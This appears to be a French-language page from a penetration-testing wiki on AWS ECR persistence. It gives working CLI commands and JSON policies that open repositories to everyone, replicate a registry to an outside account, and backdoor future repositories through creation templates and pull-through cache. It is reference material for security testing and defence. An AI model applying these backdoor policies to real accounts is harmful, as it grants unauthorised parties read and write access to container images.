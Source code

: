 # AWS - ECR Persistance

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

Pour plus d'informations, consultez :

{{#ref}}
../../aws-services/aws-ecr-enum.md
{{#endref}}

### Image Docker cachée contenant du code malveillant

Un attaquant pourrait **téléverser une image Docker contenant du code malveillant** dans un repository ECR et l'utiliser pour maintenir la persistance dans le compte AWS cible. L'attaquant pourrait ensuite déployer l'image malveillante sur divers services du compte, tels que Amazon ECS ou EKS, de manière discrète.

### Politique du dépôt

Ajoutez une politique à un dépôt unique pour vous accorder (ou accorder à tout le monde) l'accès au dépôt :
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
> [!WARNING]
> Notez que ECR exige que les utilisateurs disposent de **l'autorisation** d'appeler l'API **`ecr:GetAuthorizationToken`** via une stratégie IAM **avant de pouvoir s'authentifier** sur un registre et pousser ou tirer des images depuis n'importe quel dépôt Amazon ECR.

### Politique de registre et réplication inter-comptes

Il est possible de répliquer automatiquement un registre dans un compte externe en configurant la réplication inter-comptes, où vous devez **indiquer le compte externe** dans lequel vous souhaitez répliquer le registre.

<figure><img src="../../../images/image (79).png" alt=""><figcaption></figcaption></figure>

Tout d'abord, vous devez accorder au compte externe l'accès au registre via une **politique de registre** telle que :
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
Ensuite, appliquez la configuration de réplication :
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
### Modèles de création de repository (préfixe backdoor pour les futurs repos)

Abuser des Repository Creation Templates d'ECR pour backdoor automatiquement tout repository qu'ECR crée automatiquement sous un préfixe contrôlé (par exemple via Pull-Through Cache ou Create-on-Push). Cela accorde un accès persistant non autorisé aux futurs repos sans toucher aux existants.

- Permissions requises : ecr:CreateRepositoryCreationTemplate, ecr:DescribeRepositoryCreationTemplates, ecr:UpdateRepositoryCreationTemplate, ecr:DeleteRepositoryCreationTemplate, ecr:SetRepositoryPolicy (utilisé par le template), iam:PassRole (si un rôle personnalisé est attaché au template).
- Impact : Tout nouveau repository créé sous le préfixe ciblé hérite automatiquement d'une repository policy contrôlée par l'attaquant (p. ex., lecture/écriture inter-compte), de la mutabilité des tags et des paramètres d'analyse par défaut.

<details>
<summary>Backdoor les futurs repos créés par PTC sous un préfixe choisi</summary>
```bash
# Region
REGION=us-east-1

# 1) Prepare permissive repository policy (example grants everyone RW)
cat > /tmp/repo_backdoor_policy.json <<'JSON'
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "BackdoorRW",
"Effect": "Allow",
"Principal": {"AWS": "*"},
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer",
"ecr:InitiateLayerUpload",
"ecr:UploadLayerPart",
"ecr:CompleteLayerUpload",
"ecr:PutImage"
]
}
]
}
JSON

# 2) Create a Repository Creation Template for prefix "ptc2" applied to PULL_THROUGH_CACHE
aws ecr create-repository-creation-template   --region $REGION   --prefix ptc2   --applied-for PULL_THROUGH_CACHE   --image-tag-mutability MUTABLE   --repository-policy file:///tmp/repo_backdoor_policy.json

# 3) Create a Pull-Through Cache rule that will auto-create repos under that prefix
#    This example caches from Amazon ECR Public namespace "nginx"
aws ecr create-pull-through-cache-rule   --region $REGION   --ecr-repository-prefix ptc2   --upstream-registry ecr-public   --upstream-registry-url public.ecr.aws   --upstream-repository-prefix nginx

# 4) Trigger auto-creation by pulling a new path once (creates repo ptc2/nginx)
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com

docker pull ${acct}.dkr.ecr.${REGION}.amazonaws.com/ptc2/nginx:latest

# 5) Validate the backdoor policy was applied on the newly created repository
aws ecr get-repository-policy --region $REGION --repository-name ptc2/nginx --query policyText --output text | jq .
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
